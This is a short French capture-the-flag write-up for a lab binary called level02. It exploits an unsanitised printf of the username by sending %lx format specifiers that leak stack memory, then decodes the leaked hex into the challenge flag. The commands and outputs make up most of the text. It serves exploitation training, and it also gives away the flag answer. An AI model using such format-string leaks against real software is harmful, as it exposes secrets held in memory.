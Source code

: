 # Level02

On observe que l'executable prend une entre sur l'entre standard

```shell
$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: Hello
--[ Password: World
*****************************************
Hello does not have access!
```

On remarque un `printf(&name)` de notre username et que le `flag` est lu et stocke
juste avant notre variable `name` sur la stack. On cherche alors a l'afficher grace
au `%x` de printf.

On remarque aussi que l'executable est en `64 bits` grace au nom des registres:
`rax`, `rbx`, `rcx` et `rdx`. Il faut alors utiler `%lx` au lieux de `%x`

```shell
$ python -c 'print("AAAABBBB %21$lx %22$lx %23$lx %24$lx %25$lx %26$lx %27$lx %28$lx")' | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
AAAABBBB 0 756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d 0 4242424241414141 does not have access!
```

On connait notre flag stocke maintenant. Plus qu'a le convertir en hexa

```shell
$ python -c 'print("\x75\x6e\x50\x52\x34\x37\x68\x48"[::-1] + "\x45\x41\x4a\x35\x61\x73\x39\x51"[::-1] + "\x37\x7a\x71\x43\x57\x4e\x67\x58"[::-1] + "\x35\x4a\x35\x68\x6e\x47\x58\x73"[::-1] + "\x48\x33\x67\x50\x66\x4b\x39\x4d"[::-1])'
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
